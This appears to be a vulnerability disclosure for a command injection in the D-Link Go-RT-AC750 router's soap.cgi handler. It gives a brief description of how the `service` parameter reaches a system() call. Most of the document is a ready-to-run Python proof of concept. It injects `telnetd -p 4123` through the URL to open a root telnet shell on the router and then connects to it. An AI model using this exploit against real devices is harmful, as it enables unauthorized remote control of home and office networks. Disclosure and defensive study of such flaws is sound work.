




# Go-RT-AC750 Command Injection Vulnerabilit
## General Information
Vendor: D-Link
Affected Product: Go-RT-AC750
Firmware version: revA_v101b03
Vendor Homepage: https://www.dlink.com/en/consumer

## Vulnerability description
This vulnerability is found in function `soapcgi.main`. The function first try to get pointer to the `service` parameter in url and store it in `v14`:


Later, the parameter is joined into the format string via `sprintf` function and stored in to string `byte_435CD0`, which is used as the argument of the `system` function, causing the command injection. 


## PoC

```python
from socket import *
from os import *
from time import *

request = b"POST /soap.cgi?service=&&telnetd -p 4123& HTTP/1.1\r\n"
request += b"Host: localhost:49152\r\n"
request += b"Content-Type: text/xml\r\n"
request += b"Content-Length: 88\r\n"
request += b"SOAPAction: a#b\r\n\r\n"
 
s = socket(AF_INET, SOCK_STREAM)
s.connect((gethostbyname("192.168.0.1"), 49152))
s.send(request)
 
sleep(10)
system('telnet 192.168.0.1 4123')

```



